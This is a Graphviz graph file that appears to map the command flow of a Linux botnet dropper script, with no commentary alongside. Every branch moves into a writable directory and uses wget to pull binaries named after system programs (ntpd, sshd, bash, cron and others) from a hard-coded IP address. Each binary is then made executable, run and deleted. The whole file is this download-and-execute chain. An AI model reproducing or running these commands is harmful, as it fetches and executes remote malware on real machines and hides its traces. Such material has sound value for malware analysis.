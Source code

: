 digraph {
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 10 [label="||,"];
10 [label="wget http://198.167.136.113/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 28 [label="||,"];
28 [label="wget http://198.167.136.113/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 46 [label="||,"];
46 [label="wget http://198.167.136.113/bash "];
46 -> 48 [label=";,"];
48 [label="chmod +x bash "];
48 -> 50 [label=";,"];
50 [label="./bash "];
50 -> 52 [label=";,"];
52 [label="rm -rf bash "];
52 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 64 [label="||,"];
64 [label="wget http://198.167.136.113/tftp "];
64 -> 66 [label=";,"];
66 [label="chmod +x tftp "];
66 -> 68 [label=";,"];
68 [label="./tftp "];
68 -> 70 [label=";,"];
70 [label="rm -rf tftp "];
70 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 82 [label="||,"];
82 [label="wget http://198.167.136.113/wget "];
82 -> 84 [label=";,"];
84 [label="chmod +x wget "];
84 -> 86 [label=";,"];
86 [label="./wget "];
86 -> 88 [label=";,"];
88 [label="rm -rf wget "];
88 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 100 [label="||,"];
100 [label="wget http://198.167.136.113/cron "];
100 -> 102 [label=";,"];
102 [label="chmod +x cron "];
102 -> 104 [label=";,"];
104 [label="./cron "];
104 -> 106 [label=";,"];
106 [label="rm -rf cron "];
106 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 118 [label="||,"];
118 [label="wget http://198.167.136.113/ftp "];
118 -> 120 [label=";,"];
120 [label="chmod +x ftp "];
120 -> 122 [label=";,"];
122 [label="./ftp "];
122 -> 123 [label=";,"];
}
